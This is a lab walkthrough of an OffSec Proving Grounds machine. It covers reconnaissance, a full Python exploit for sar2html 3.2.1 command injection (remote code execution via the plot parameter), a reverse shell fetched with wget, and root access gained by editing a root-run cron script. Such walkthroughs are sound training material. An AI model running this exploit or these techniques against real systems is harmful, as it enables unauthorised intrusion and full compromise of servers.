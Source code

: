 This is my first Proving grounds machine.

![image](https://user-images.githubusercontent.com/64267672/160265693-312e5c8f-6723-490e-86ab-7716aca9610a.png)


Starting with an nmap scan and i find 2 ports open. Ports 80 & 22


![image](https://user-images.githubusercontent.com/64267672/160264929-f53ee91e-6600-47c9-8e54-a1b583f8a1a1.png)

Starting attack off with port 80


visiting the webpage, we have a default apache web page, nothing in comments

![image](https://user-images.githubusercontent.com/64267672/160264955-701a2896-b9a0-445b-b044-869a1928166b.png)


Looking at the robots.txt & we have somthing interesting.

![image](https://user-images.githubusercontent.com/64267672/160264995-872e09f1-6440-46b5-a230-3805bb9b6544.png)

now visiting the new endpoint 

![image](https://user-images.githubusercontent.com/64267672/160265058-985bdcbb-35bf-4618-9493-dcfa97f79640.png)

i did a little research & found a known exploit for this which we'll use to exploit;

![image](https://user-images.githubusercontent.com/64267672/160265109-b65d3154-f1d0-450e-afec-65dd455f6971.png)

now poc;

`````
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()
`````

![image](https://user-images.githubusercontent.com/64267672/160265249-b070294f-2f9a-4c6b-b28d-3e214a3ad7d3.png)

now we can get a reverse shell of course 😉

I got a copy of the pentest monkey php reverse shell to my local machine, then hosted a http python server & uploaded reverse shell with wget on victim machine;

![image](https://user-images.githubusercontent.com/64267672/160265364-52dad309-00af-4609-9130-7f6ebf0b8814.png)

now we can stablize the shell, get user.txt & enumerate to elevate privilege;

looking around, we find a crontab running that lets the root user to execute a finally.sh file which in turn executes a write.sh file.


Apparently we can't write to finally.sh file but can for write.sh 

So i uploaded a php reverse shell, edited the write.sh file to call my newly uploaded php reverse shell script which gives me a root shell after the crontabs runs.


![image](https://user-images.githubusercontent.com/64267672/160265646-a9b83df0-4f35-4f31-8370-9cb191e4be13.png)



![image](https://user-images.githubusercontent.com/64267672/160265509-7de6f127-50d2-4957-a92c-4964300cb0a5.png)


And we can read root files even root.txt 😉

![image](https://user-images.githubusercontent.com/64267672/160265522-c842b9c7-a618-4b28-a6ba-15c7213e1f0e.png)









####RESOURCES
https://www.exploit-db.com/exploits/47204

https://portal.offensive-security.com/proving-grounds/play









